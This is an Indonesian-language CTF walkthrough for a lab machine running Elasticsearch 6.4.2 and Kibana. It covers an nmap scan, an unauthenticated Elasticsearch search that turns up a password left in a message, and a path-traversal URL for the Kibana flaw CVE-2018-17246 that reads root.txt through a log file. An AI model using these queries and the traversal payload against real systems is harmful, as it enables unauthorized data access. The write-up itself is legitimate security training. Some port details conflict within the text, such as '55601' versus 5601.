**General approach about challenge**:
- scan the machine to look for open ports(specific to services running as well)
- as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records
- for other open ports, identify misconfigurations or public exploits based on version numbers



scan IP-target dengan nmap
```
nmap -sS -A -Pn IP-target
...
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind   2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     Date: Mon, 04 May 2020 19:44:01 GMT
|     Connection: close
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     cache-control: no-cache
|     content-type: text/html; charset=utf-8
|     content-length: 217
|     accept-ranges: bytes
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|     <script>var hashRoute = '/app/kibana';
|     defaultRoute = '/app/kibana';
|     hash = window.location.hash;
|     (hash.length) {
|     window.location = hashRoute + hash;
|     else {
|     window.location = defaultRoute;
|     }</script>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|_    {"statusCode":404,"error":"Not Found"}
8000/tcp open  http      SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http      Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
9300/tcp open  vrace?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|_    This is not an HTTP port
```

didapat beberapa port, dan beberapa yang menarik terkait dengan challenge adalah
- `55601` kibana apps
- `8000` kibana.log
- `9200`  database

untuk menjawab pertanyaan pertama tentang password, kita dapat pergi ke port `http://IP-target:9200`. Jika kita googling tentang "*elasticsearch API*", kita akan mendapat beberapa hasil yang mengarah ke [elastic.co](www.elastic.co), namun yang kita perlukan saat ini adalah cara mencari password melalui elasticsearch ini, maka dari hasil googling, kita dapat menuju ke [elasticsearch search guide](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html).

di page guide tersebut, ditunjukkan beberapa cara search

- `GET /<target>/_search`
- `GET /_search`
- `POST /<target>/_search`
- `POST /_search`

jika di implementasikan ke target, maka `http://IP-target:9200/_search` dan hasilnya adalah
```
{"took":3,"timed_out":false,"_shards":{"total":6,"successful":6,"skipped":0,"failed":0},"hits":{"total":201,"max_score":1.0,"hits":[{"_index":".kibana","_type":"doc","_id":"config:6.4.2","_score":1.0,"_source":{"type":"config","updated_at":"2019-10-20T15:10:20.243Z","config":{"buildNum":18010,"telemetry:optIn":false}}},{"_index":"messages","_type":"_doc","_id":"0","_score":1.0,"_source":{"sender": "ben", "receiver": "kirsten", "message": "Android > IOS"}},{"_index":"messages","_type":"_doc","_id":"14","_score":1.0,"_source":{"sender": "susan", "receiver": "chris", "message": "i have so much goss for you!!"}},
...
```

namun disini kita ingin mencari sesuatu yang spesifik, yaitu password, maka kita perlu query parameter. Jika dilihat di [elasticsearch search guide](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html), terdapat banyak query parameter, namun yang kita butuhkan hanyalah `q` yang mana akan memungkinkan kita memasukkan string pada query. selanjutnya kita cari password dengan query `http://IP-target:9200/_search?q=password` dan hasilnya adalah

```
{"took":16,"timed_out":false,"_shards":{"total":6,"successful":6,"skipped":0,"failed":0},"hits":{"total":1,"max_score":2.0136302,"hits":[{"_index":"messages","_type":"_doc","_id":"73","_score":2.0136302,"_source":{"sender": "mary", "receiver": "wendy", "message": "hey, can you access my dev account for me. My username is l33tperson and my password is ****************"}}]}}
```

kita dapat menjawab pertanyaan pertama dengan password hasil query search tersebut.

Untuk menjawab pertanyaan kedua, kita dapat googling lagi dengan keyword "*kibana 6.4.x exploit*". Akan muncul banyak referensi, namun yang paling tepat adalah [CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13](https://github.com/mpgn/CVE-2018-17246). Dari yang dijelaskan, kita dapat melakukan LFI. Dari page github tersebut, terdapat url untuk LFI `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../path/to/shell.js` dan karena terdapat `api`, maka kita dapat langsung implementasi ke `http://IP-target:9200` untuk melihat isi konten dari root.txt.
`http://IP-target:9200/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`. Namun nantinya hanya akan loading. Untuk melihat hasilnya, kita dapat pergi ke `http://IP-target:8000/kibana-log.txt` maka nantinya akan ada isi dari root.txt, bisa menggunakan CTRL+F di browser atau menggunakan `curl -s http://IP-target:8000/kibana-log.txt | grep root.txt`
```
...
{"type":"error","@timestamp":"2023-11-26T12:41:04Z","tags":["warning","process"],"pid":2710,"level":"error","error":{"message":"ReferenceError: ********** is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n    at Module._compile...
...
```

jawaban ada di `**********`.